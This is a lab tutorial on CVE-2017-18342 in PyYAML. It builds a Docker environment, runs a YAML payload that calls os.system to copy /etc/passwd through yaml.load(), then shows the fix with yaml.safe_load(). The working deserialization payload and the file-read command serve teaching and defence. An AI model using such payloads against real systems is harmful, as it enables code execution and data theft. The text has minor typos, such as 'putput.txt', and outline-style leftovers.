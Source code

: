 **CVE-2017-18342**. 

**Objective of the material** 

This tutorial will help you to understand CVE vulnerabilities in detailed way, how to simulate the vulnerability and do advanced exploitation in safe environments. Then how to fix this vulnerability. 

**Description**  

In PyYAML before 5.1, the yaml.load() API could execute arbitrary code if used with untrusted data. The load() function has been deprecated in version 5.1 and the 'UnsafeLoader' has been introduced for backward compatibility with the function.

**What is PyYAML**  

PyYAML is a YAML parser and emitter for the Python programming language 

**Vulnerablity**  

Issue with yaml.load()

>Vulnerability: The yaml.load() function is used to parse YAML data.When yaml.load() parses a YAML file, it not only deserializes basic data types (like strings, lists, or dictionaries) but can also instantiate Python objects.

>Arbitrary Code Execution: If untrusted YAML data is passed to yaml.load(), it could cause Python objects or even functions to be instantiated or executed. This behavior leads to arbitrary code execution (RCE), where an attacker could craft a malicious YAML file that runs dangerous commands or code on the server or client, potentially taking full control of the system. 

**Prerequisites** 

Tools/Technologies Needed
Python  
PyYAML  
Docker (for containerization and easy setup) 

Basic Knowledge: 
Understanding YAML format. 
Knowledge of serialization and deserialization concepts. 
 

**Step 1: Create a Vulnerable Python Application**

Create a folder name CVE-2017-18342 and add a file named exploit.py containing the following code: 
 
    import yaml
 
    # Malicious YAML payload
    payload = """ 
    !!python/object/apply:os.system
    args: ["cat /etc/passwd > putput.txt && echo 'File read and written successfully' >> output.txt"] 
    """ 
 
    # Attempt to load the malicious payload 
    yaml.load(payload, Loader=yaml.UnsafeLoader) 
    print("Exploit executed. Check output.txt for the result.") `
 
 
This code reads the contents of a sensitive file (/etc/passwd) and stores it in a file (output.txt). 
The yaml.load() function would execute the os.system call, which is very dangerous. 
If you notice, we use the UnsafeLoad function because for backward compatibility. The UnsafeLoader was introduced after version 5.1, allowing users to explicitly opt into the dangerous behavior of yaml.load().

**Step 2: Create Docker Environment** 

Create a docker-compose.yml file under CVE-2017-18342 to set up the environment with a vulnerable version of PyYAML:
 
    version: '3' 
    services: 
    pyyaml-vulnerable: 
    image: python:3.8-slim 
    container_name: pyyaml-vulnerable-container 
    volumes: 
    - .:/app 
    working_dir: /app 
    command: sh -c "pip install PyYAML==5.1 && python3 exploit.py" 

**Step 3: Run the Vulnerable Application** 

Start the application by using Docker 
Start the docker application - this can be done from the docker desktop by turning it on or restarting. 
Go to CVE-2017-18342 folder in the terminal where all the above files are and run the following code. 
 
 
    docker-compose up –build 
 
**Step 4: Observe the Exploit**

After successfully running this vulnerability, you get a new output.txt file that contains user account information. 

you should see the output from the malicious YAML being executed, confirming the exploit: 

You successfully run vulnerabilities! 

**Step 5: Fixing the Vulnerability**

Create a file called safety.py which update the Code to use yaml.safe_load() 

    import yaml 
 
    # Malicious YAML payload 
    payload = """ 
    !!python/object/apply:os.system 
    args: ["cat /etc/passwd > putput.txt && echo 'File read and written successfully' >> output.txt"] 
    """ 
 
    # Attempt to load the malicious payload 
    yaml.safe_load(payload) 
    print("Exploit executed. Check output.txt for the result.") 
 
By replaceing yaml.load() with yaml.safe_load(), which prevents arbitrary code execution by only allowing simple Python objects (like lists and dictionaries) to be loaded.  
 
**Step 6: Update Docker Environment to Test the Fix**

Update docker-compose.yml to test the fixed script. 
 
version: '3' 
services: 
pyyaml-fixed: 
image: python:3.8-slim 
container_name: pyyaml-fixed-container 
volumes: 
- .:/app 
working_dir: /app 
command: sh -c "pip install PyYAML==5.1 && python3 safety.py" 
 
**Step 7: Run the Fixed Application** 

Rebuild and restart the container with the fixed code 
 
Use docker-compose up --build in the terminal to build and run the environment with the corrected 
 
**Step 8: Verify the Fix** 

After running the application, the malicious YAML will no longer be executed: 

The error you're seeing confirms that safe_load() blocks the loading of the custom YAML tag !!python/object/apply:os.system. This is expected behavior when using safe_load() and shows that it is working as a security measure. 

Explanation: 

By using yaml.safe_load(), the deserialization process is limited to basic types, and no arbitrary code execution is possible. The malicious YAML is treated as harmless data. 
 

**Step 9. Best Practices for Deserialization** 

Always use yaml.safe_load() when processing untrusted YAML input. 
Be cautious when deserializing data from unknown sources. Arbitrary code execution is a common deserialization vulnerability in many formats, including YAML, JSON, and XML. 
Upgrade dependencies like PyYAML regularly to ensure you are protected from known vulnerabilities. 
 

**Conclusion** 

Reiterate the importance of using safe_load() instead of load() when working with YAML data to avoid arbitrary code execution vulnerabilities. 
Emphasize that upgrading PyYAML to the latest secure version (5.4.1 or later) also helps prevent this vulnerability. 
Provide a reminder to test all dependencies for security vulnerabilities using tools like pip-audit or similar. 
 
**Additional Resources** 

PyYAML Documentation- https://pyyaml.org/wiki/PyYAMLDocumentation
CVE-2017-18342 Details- https://nvd.nist.gov/vuln/detail/CVE-2017-18342
Best Practices for Deserialization in Python- https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html , https://docs.python.org/3/library/pickle.html#restricting-globals 
 
